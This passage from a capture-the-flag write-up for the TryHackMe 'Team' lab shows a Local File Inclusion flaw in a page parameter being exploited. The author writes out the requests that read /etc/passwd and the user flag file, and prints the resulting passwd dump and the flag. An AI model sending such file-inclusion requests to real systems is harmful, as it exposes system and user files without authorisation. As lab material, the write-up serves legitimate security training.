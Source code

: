 Followed the link:

![teamshare](./screenshots/teamshare.png)

I noticed the **?page=teamshare.php** at the end of the URL. This is a good sign that there is a **Local File Inclusion** (LFI) vulnerability. This means that we can read arbitrary files in the file system.

I tried entering the following URL:

```
http://dev.team.thm/script.php?page=/etc/passwd
```

And I got the following:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false dale:x:1000:1000:anon,,,:/home/dale:/bin/bash gyles:x:1001:1001::/home/gyles:/bin/bash ftpuser:x:1002:1002::/home/ftpuser:/bin/sh ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin sshd:x:111:65534::/run/sshd:/usr/sbin/nologin 
```

It works! Now I tried to see if I could read the user flag:

```
http://dev.team.thm/script.php?page=/home/dale/user.txt
```

I got the following:

```
THM{6Y0TXHz7c2d} 
```

That is our user flag!
